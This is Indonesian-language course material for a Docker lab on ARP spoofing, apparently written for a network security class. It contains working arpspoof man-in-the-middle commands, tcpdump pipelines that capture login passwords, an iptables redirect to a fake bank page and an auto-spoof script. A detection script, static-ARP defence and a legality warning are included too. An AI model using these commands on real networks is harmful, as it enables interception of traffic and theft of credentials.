


# Materi Lengkap Pertemuan 3: L2 Security - ARP Spoofing

## Daftar Isi
1. [Apa itu ARP?](#1-apa-itu-arp)
2. [ARP Spoofing / ARP Poisoning](#2-arp-spoofing--arp-poisoning)
3. [Setup Lab dengan Docker Compose (Versi Cepat)](#3-setup-lab-dengan-docker-compose-versi-cepat)
4. [Hands-On: ARP Spoofing dengan arpspoof](#4-hands-on-arp-spoofing-dengan-arpspoof)
5. [Hands-On: DNS Spoofing dengan Web Lokal](#5-hands-on-dns-spoofing-dengan-web-lokal)
6. [Deteksi dan Pencegahan](#6-deteksi-dan-pencegahan)
7. [Latihan Mandiri](#7-latihan-mandiri)
8. [Troubleshooting](#8-troubleshooting)

---

## 1. Apa itu ARP?

### Definisi Sederhana

**ARP (Address Resolution Protocol)** adalah protokol yang digunakan untuk memetakan alamat IP (layer 3) ke alamat MAC (layer 2) dalam jaringan lokal.

### Analogi Sehari-hari

Bayangkan Anda ingin mengirim surat di kompleks perumahan:
- **IP Address** = Nama orang (siapa yang dituju)
- **MAC Address** = Alamat rumah (dimana orang itu tinggal)
- **ARP** = Buku alamat yang menghubungkan nama orang dengan alamat rumahnya

### Cara Kerja ARP Normal


```mermaid
sequenceDiagram
    participant A as Komputer A<br>(172.20.0.10)
    participant B as Komputer B<br>(172.20.0.20)
    
    Note over A: Saya ingin kirim ke 172.20.0.20<br>Tapi tidak tahu MAC-nya
    
    A->>Broadcast: Siapa yang punya IP 172.20.0.20?<br> (ARP Request)
    Broadcast-->>B: Mendengar pertanyaan
    
    B->>A: Saya! MAC saya: AA:BB:CC:DD:EE:FF<br> (ARP Reply - Unicast)
    
    Note over A: Menyimpan di ARP Table:<br>172.20.0.20 = AA:BB:CC:DD:EE:FF
```

### ARP Table

Setiap komputer menyimpan cache ARP:

```bash
# Lihat ARP table di Linux
ip neigh show
# atau
arp -n

Contoh output:
172.20.0.1 dev eth0 lladdr 02:42:ac:14:00:01 REACHABLE
172.20.0.20 dev eth0 lladdr 02:42:ac:14:00:14 STALE
```

---

## 2. ARP Spoofing / ARP Poisoning

### Apa itu ARP Spoofing?

**ARP Spoofing** adalah teknik di mana penyerang mengirimkan pesan ARP palsu ke jaringan, sehingga memetakan alamat IP korban ke alamat MAC penyerang.

### Mengapa ARP Rentan?

- **Tidak ada autentikasi**: ARP tidak memverifikasi apakah pesan itu asli
- **Stateless**: Setiap perangkat menerima ARP reply meskipun tidak meminta
- **Cache poisoning**: Perangkat akan memperbarui ARP table-nya dengan informasi baru

### Skenario Serangan


```mermaid
graph TD
    subgraph Jaringan Normal
        A[Korban<br>IP: 172.20.0.10]
        B[Gateway<br>IP: 172.20.0.254]
        C[Web Server<br>IP: 172.20.0.20]
        
        A -->|"Ke website"| C
    end
    
    subgraph Setelah ARP Spoofing
        A2[Korban<br>IP: 172.20.0.10]
        P[Penyerang<br>IP: 172.20.0.100]
        C2[Web Server<br>IP: 172.20.0.20]
        
        A2 -->|"ARP: 0.20 = MAC P"| P
        P -->|"Forward"| C2
        C2 -->|"Response"| P
        P -->|"Forward"| A2
        
        style P fill:#ff8888,stroke:#f00
    end
```

### Apa yang Bisa Dilakukan Penyerang?

1. **Man-in-the-Middle (MITM)**: Menyadap semua komunikasi
2. **Password Sniffing**: Menangkap password yang dikirim
3. **DNS Spoofing**: Mengarahkan korban ke website palsu

---

## 3. Setup Lab dengan Docker Compose (Versi Cepat)

### 🏃‍♂️ **Setup 5 Menit!**

### Langkah 1: Buat Folder Proyek
```bash
cd ~
mkdir -p lab-arp
cd lab-arp
```

### Langkah 2: Buat file docker-compose.yml (Versi Ringan)
Buka **VS Code**:
```bash
code .
```

Buat file `docker-compose.yml`:

```yaml
version: '3.8'

services:
  # KORBAN - Ubuntu ringan
  korban:
    image: ubuntu:22.04
    container_name: korban
    hostname: korban-pc
    networks:
      lab_network:
        ipv4_address: 172.20.0.10
    cap_add:
      - NET_ADMIN
      - NET_RAW
    tty: true
    stdin_open: true
    volumes:
      - ./shared:/shared
    command: >
      bash -c "
      apt update &&
      apt install -y curl iputils-ping net-tools tcpdump &&
      echo '✅ Korban siap' &&
      tail -f /dev/null
      "

  # WEBSERVER ASLI
  web-asli:
    image: nginx:alpine
    container_name: web-asli
    networks:
      lab_network:
        ipv4_address: 172.20.0.20
    volumes:
      - ./web-asli:/usr/share/nginx/html
    ports:
      - "8080:80"
    command: >
      sh -c "
      echo '✅ Web Asli di port 8080' &&
      nginx -g 'daemon off;'
      "

  # WEBSERVER PALSU
  web-palsu:
    image: nginx:alpine
    container_name: web-palsu
    networks:
      lab_network:
        ipv4_address: 172.20.0.30
    volumes:
      - ./web-palsu:/usr/share/nginx/html
    ports:
      - "8081:80"
    command: >
      sh -c "
      echo '✅ Web Palsu di port 8081' &&
      nginx -g 'daemon off;'
      "

  # GATEWAY
  gateway:
    image: alpine:latest
    container_name: gateway
    networks:
      lab_network:
        ipv4_address: 172.20.0.254
    cap_add:
      - NET_ADMIN
    sysctls:
      - net.ipv4.ip_forward=1
    privileged: true
    tty: true
    stdin_open: true
    command: >
      sh -c "
      apk add iptables &&
      echo 1 > /proc/sys/net/ipv4/ip_forward &&
      iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE &&
      echo '✅ Gateway siap' &&
      tail -f /dev/null
      "

  # PENYERANG - Kali Linux MINIMAL (hanya tools penting)
  penyerang:
    image: kalilinux/kali-rolling
    container_name: penyerang
    networks:
      lab_network:
        ipv4_address: 172.20.0.100
    cap_add:
      - NET_ADMIN
      - NET_RAW
    privileged: true
    tty: true
    stdin_open: true
    volumes:
      - ./shared:/shared
    command: >
      bash -c "
      apt update &&
      apt install -y --no-install-recommends dsniff tcpdump net-tools curl &&
      echo 1 > /proc/sys/net/ipv4/ip_forward &&
      echo '🔥 KALI MINIMAL READY - arpspoof & tcpdump siap 🔥' &&
      tail -f /dev/null
      "

networks:
  lab_network:
    driver: bridge
    ipam:
      config:
        - subnet: 172.20.0.0/16
```

### Langkah 3: Buat Website Sederhana

Di VS Code, buat folder dan file:

**Folder structure:**
```
lab-arp-cepat/
├── docker-compose.yml
├── web-asli/
│   └── index.html
├── web-palsu/
│   └── index.html
└── shared/
```

**Buat `web-asli/index.html`:**
```html
<!DOCTYPE html>
<html>
<head>
    <title>BANK ASLI</title>
    <style>
        body { background: lightgreen; font-family: Arial; padding: 30px; }
        .box { border: 2px solid green; padding: 20px; max-width: 400px; }
    </style>
</head>
<body>
    <div class="box">
        <h2 style="color:green">✅ BANK ASLI (172.20.0.20)</h2>
        <form method="POST" action="/login">
            Username: <input type="text" name="user"><br><br>
            Password: <input type="password" name="pass"><br><br>
            <input type="submit" value="Login">
        </form>
    </div>
</body>
</html>
```

**Buat `web-palsu/index.html`:**
```html
<!DOCTYPE html>
<html>
<head>
    <title>⚠️ BANK PALSU ⚠️</title>
    <style>
        body { background: lightcoral; font-family: Arial; padding: 30px; }
        .box { border: 3px solid red; padding: 20px; max-width: 400px; }
        .warning { background: yellow; padding: 10px; }
    </style>
</head>
<body>
    <div class="box">
        <h2 style="color:red">❌ BANK PALSU (172.20.0.30)</h2>
        <div class="warning">⚠️ DEMO ARP SPOOFING ⚠️</div>
        <form method="POST" action="/login">
            Username: <input type="text" name="user"><br><br>
            Password: <input type="password" name="pass"><br><br>
            <input type="submit" value="Login">
        </form>
    </div>
</body>
</html>
```

### Langkah 4: Jalankan Lab (Cepat! ⚡)
```bash
# Start semua container
docker-compose up -d

# Tunggu 30 detik
sleep 30

# Cek status
docker-compose ps

# Semua harus "Up"
```

### Langkah 5: Test Koneksi
```bash
# Test dari korban
docker exec korban ping -c 2 172.20.0.20

# Test web di browser:
# Web Asli: http://localhost:8080
# Web Palsu: http://localhost:8081
```

---

## 4. Hands-On: ARP Spoofing dengan arpspoof

### 🎯 **Praktik 10 Menit**

### Buka Terminal untuk Setiap Container

**Terminal 1 - Penyerang:**
```bash
docker exec -it penyerang bash
```

**Terminal 2 - Korban:**
```bash
docker exec -it korban bash
```

**Terminal 3 - Monitoring:**
```bash
docker exec -it korban bash
# atau buka terminal baru
```

### Langkah 1: Catat Kondisi Normal (Di Korban)

```bash
# Lihat ARP table awal
arp -n

# Catat MAC asli web asli
MAC_ASLI=$(arp -n | grep 172.20.0.20 | awk '{print $3}')
echo "MAC ASLI Web: $MAC_ASLI"

# Test akses web
curl http://172.20.0.20
```

### Langkah 2: Mulai Serangan (Di Penyerang)

```bash
# Aktifkan IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Jalankan ARP spoofing ke korban (bohongi korban)
arpspoof -i eth0 -t 172.20.0.10 172.20.0.20

# Buka terminal penyerang BARU (Terminal 4)
docker exec -it penyerang bash

# Jalankan spoof ke server
arpspoof -i eth0 -t 172.20.0.20 172.20.0.10

# Buka terminal penyerang BARU (Terminal 5)
docker exec -it penyerang bash

# Sniff password
tcpdump -i eth0 -A -l port 80 | grep -E "user=|pass="
```

### Langkah 3: Buktikan Serangan (Di Korban)

```bash
# Lihat perubahan ARP table
arp -n | grep 172.20.0.20
# MAC sekarang = MAC penyerang!

# Kirim data login
curl -X POST http://172.20.0.20/login \
  -d "user=andi&pass=rahasia123"
```

### Langkah 4: Lihat Hasil (Di Terminal Sniffing)

Akan muncul:
```
user=andi&pass=rahasia123
```

### 🎉 **SELAMAT! Anda berhasil menangkap password!**

---

## 5. Hands-On: DNS Spoofing dengan Web Lokal

### Langkah 1: Install DNS Tools di Korban
```bash
# Di korban
apt update && apt install -y dnsutils
```

### Langkah 2: Setup DNS Spoof di Penyerang
```bash
# Di penyerang, buat file hosts palsu
cat > /tmp/hosts.palsu << 'EOF'
172.20.0.30 bank.local
172.20.0.30 www.bank.local
EOF

# Redirect semua traffic HTTP ke web palsu
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j DNAT --to-destination 172.20.0.30

# Jalankan ARP spoof ke korban (supaya traffic lewat)
arpspoof -i eth0 -t 172.20.0.10 172.20.0.254 &
```

### Langkah 3: Test dari Korban
```bash
# Coba akses domain
curl http://bank.local
# Akan muncul website PALSU (background merah)
```

---

## 6. Deteksi dan Pencegahan

### Deteksi Sederhana (Di Korban)

Buat script monitoring:

```bash
cat > monitor.sh << 'EOF'
#!/bin/bash
REAL_MAC="02:42:ac:14:00:14"  # Ganti dengan MAC asli

while true; do
    clear
    CURRENT=$(arp -n | grep 172.20.0.20 | awk '{print $3}')
    echo "Waktu: $(date '+%H:%M:%S')"
    echo "MAC Sekarang: $CURRENT"
    echo "MAC Seharusnya: $REAL_MAC"
    
    if [ "$CURRENT" != "$REAL_MAC" ]; then
        echo "⚠️ TERDETEKSI ARP SPOOFING!"
    fi
    sleep 2
done
EOF

chmod +x monitor.sh
./monitor.sh
```

### Pencegahan dengan Static ARP

```bash
# Tambah static ARP (tidak bisa di-poison)
arp -s 172.20.0.20 02:42:ac:14:00:14

# Verifikasi
arp -n | grep 172.20.0.20
# Akan ada flag PERMANENT
```

---

## 7. Latihan Mandiri

### Latihan 1: Tangkap 5 Password
```bash
# Di penyerang
tcpdump -i eth0 -A port 80 | grep -E "user=|pass=" | tee /shared/password.txt
```

### Latihan 2: Buat Script Auto-Spoof
```bash
cat > /shared/auto_spoof.sh << 'EOF'
#!/bin/bash
echo "Memulai ARP Spoofing..."
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 172.20.0.10 172.20.0.20 &
arpspoof -i eth0 -t 172.20.0.20 172.20.0.10 &
tcpdump -i eth0 -A port 80
EOF
```

### Latihan 3: Bersih-bersih
```bash
killall arpspoof
echo 0 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -F
ip neigh flush all
```

---

## 8. Troubleshooting

### Masalah: Container tidak bisa ping
```bash
# Cek network
docker network ls
docker network inspect lab_network

# Restart container
docker-compose restart
```

### Masalah: arpspoof not found
```bash
# Di penyerang
apt update && apt install -y dsniff
```

### Masalah: IP forwarding tidak aktif
```bash
# Cek status
cat /proc/sys/net/ipv4/ip_forward
# Aktifkan
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### Masalah: Web tidak bisa diakses
```bash
# Cek dari host
curl http://localhost:8080
curl http://localhost:8081

# Cek dari container
docker exec web-asli curl http://localhost
```

---

## Ringkasan Perintah Penting

| Fungsi | Perintah |
|--------|----------|
| Start lab | `docker-compose up -d` |
| Stop lab | `docker-compose down` |
| Masuk penyerang | `docker exec -it penyerang bash` |
| Masuk korban | `docker exec -it korban bash` |
| Lihat ARP | `arp -n` |
| Spoof korban | `arpspoof -i eth0 -t 172.20.0.10 172.20.0.20` |
| Spoof server | `arpspoof -i eth0 -t 172.20.0.20 172.20.0.10` |
| IP Forward | `echo 1 > /proc/sys/net/ipv4/ip_forward` |
| Sniff HTTP | `tcpdump -i eth0 -A port 80` |
| Sniff password | `tcpdump -i eth0 -A -l port 80 \| grep -E "user\|pass"` |
| Static ARP | `arp -s 172.20.0.20 02:42:ac:14:00:14` |
| Reset ARP | `ip neigh flush all` |
| Matikan serangan | `killall arpspoof` |

---

## ⚠️ Catatan Penting

1. **LEGALITAS**: Praktik ini HANYA untuk pembelajaran di lab sendiri
2. **KEAMANAN**: Jangan coba di jaringan orang lain
3. **BERSIH**: Selalu jalankan cleanup setelah selesai
4. **CATAT MAC**: Catat MAC asli sebelum serangan untuk deteksi
